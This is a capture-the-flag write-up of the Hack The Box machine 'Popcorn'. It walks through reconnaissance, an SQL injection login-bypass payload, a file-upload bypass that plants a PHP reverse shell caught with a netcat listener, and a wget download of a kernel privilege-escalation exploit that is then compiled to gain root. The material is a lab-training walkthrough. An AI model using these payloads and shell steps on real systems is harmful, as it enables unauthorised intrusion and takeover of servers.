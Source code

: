 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.6
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.6

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 09:18 EST
<br>Nmap scan report for 10.10.10.6
<br>Host is up (0.15s latency).
<br>Not shown: 998 closed ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 5.1p1 Debian 6ubuntu2</font> (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.2.12</font> ((Ubuntu))
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 88.76 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

**Gobuster**:- To Bruteforce Web Directory
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.6/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.6/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.6/index (Status: 200)
<br>http://10.10.10.6/test (Status: 200)
<br><font color="53E100">http://10.10.10.6/torrent</font> (Status: 301)
<br>http://10.10.10.6/rename (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>From the gobuster we can see there is a directory **/torrent** in which _Torrent Hoster_ is running.
![Torrent](https://teckk2.github.io/assets/images/Popcorn/1-Popcorn.jpeg)
Now to get inside There are two ways either you can signup a new user or you can do **_sqli loggin bypass_**.
![SQLi bypass](https://teckk2.github.io/assets/images/Popcorn/2-Popcorn.JPG)
<br>In the _Username_ field we will use **{user' 1=1 LIMIT 1;#}** and in the _Password_ field you can use anything like **{password}**.
<br>Using this we can get admin access
![Admin Pannel](https://teckk2.github.io/assets/images/Popcorn/3-Popcorn.JPG)
Now go to the Upload Tab, and there we can only upload a torrent file so Download a valid torrent file or create a [new torrent file](https://www.wikihow.com/Create-a-Torrent)
![Torrent file](https://teckk2.github.io/assets/images/Popcorn/4-Popcorn.JPG)
<p>After uploading the file you will see there is a category _Screenshots_, where we can upload an image, So click on _edit this torrent_ and a new window will pop-up, And you need to remeber one thing we can upload only an image files(_jpg, jpeg, gif, png._). So now We have to bypass the image upload file restriction and need to upload our php reverse-shell in that place.</p>
<br> First Download the PHP standalone [reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or 
<br>Just open the file {<font color="red">root@kali</font>:<font color="RoyalBlue">/usr/share/webshells/php</font>#cat php-reverse-shell.php}
<br>Now open the file and change the IP and Port, Then change the file extension from {file.php} to {file.php;.png}.
<br>And browse the file to upload  
![upload](https://teckk2.github.io/assets/images/Popcorn/5-Popcorn.JPG)
<br>Now capture the upload request in _BURP_
![upload request-1](https://teckk2.github.io/assets/images/Popcorn/6-Popcorn.JPG)
<br>And change the extension from {_teck.php;.png_} to {_teck.php_} and forward it.
![upload request-2](https://teckk2.github.io/assets/images/Popcorn/7-Popcorn.JPG)
<br>Now open up the listner and then click on the [Image File Not Found!] box in a new tab
![image not found](https://teckk2.github.io/assets/images/Popcorn/8-Popcorn.JPG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 52549
<br>Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br> 19:50:19 up 1 day, 18:50,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>/bin/sh: can't access tty; job control turned off
<br>$ id
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>$uname -a
<br>Linux popcorn <font color="53E100">2.6.31-14-generic-pae</font> #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br>$</p> 
</div>
</font>
<br>Now we have the web-shell adn the target machine kernal is 2.6.31-14 maybe we can any epxloit for it.
**Exploit**:- [Linux Kernel 2.6.37 'Full-Nelson.c' Local Privilege Escalation](https://www.exploit-db.com/exploits/15704/)
**POC**-
Download/Copy the epxloit into your kali machine, transfer the file using apache web server or a Python web server
![python web](https://teckk2.github.io/assets/images/Popcorn/9-Popcorn.JPG)
<br>Now download the file into the target machine then compile and run it.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>$ /bin/bash -i
<br>bash: no job control in this shell
<br>www-data@popcorn:/tmp$ wget http://10.10.*.*:8000/exploit.c
<br>wget http://10.10.*.*:8000/exploit.c
<br>--2017-12-19 20:19:02--  http://10.10.*.*:8000/exploit.c
<br>Connecting to 10.10.*.*:8000... connected.
<br>HTTP request sent, awaiting response... 200 OK
<br>Length: 9248 (9.0K) [text/plain]
<br>Saving to: `exploit.c'

<br>     0K .........                                             100% 54.6K=0.2s

<br>2017-12-19 20:19:03 (54.6 KB/s) - `exploit.c' saved [9248/9248]

<br>www-data@popcorn:/tmp$ gcc exploit.c -o exploit
<br>gcc exploit.c -o exploit
<br>www-data@popcorn:/tmp$ chmod +x exploit
<br>chmod +x exploit
<br>www-data@popcorn:/tmp$ ./exploit
<br>./exploit
<br>id
<br>uid=0(<font color="53E100">root</font>) gid=0(<font color="53E100">root</font>)</p>
</div>
</font>
**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>/bin/bash -i
<br>bash: no job control in this shell
<br>root@popcorn:/tmp# cd /home
<br>cd /home
<br>root@popcorn:/home# ls
<br>george
<br>ls
<br>root@popcorn:/home# cd george
<br>cd george
<br>root@popcorn:/home/george# ls
<br>torrenthoster.zip
<br>user.txt
<br>ls
<br>root@popcorn:/home/george# cat user.txt
<br>cat user.txt
<br><font color="53E100">************************</font>
<br>root@popcorn:/home/george# cd /root
<br>cd /root
<br>root@popcorn:/root# ls
<br>root.txt
<br>ls
<br>root@popcorn:/root# cat root.txt
<br>cat root.txt
<br><font color="53E100">************************</font>
<br>root@popcorn:/root#</p> 
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>







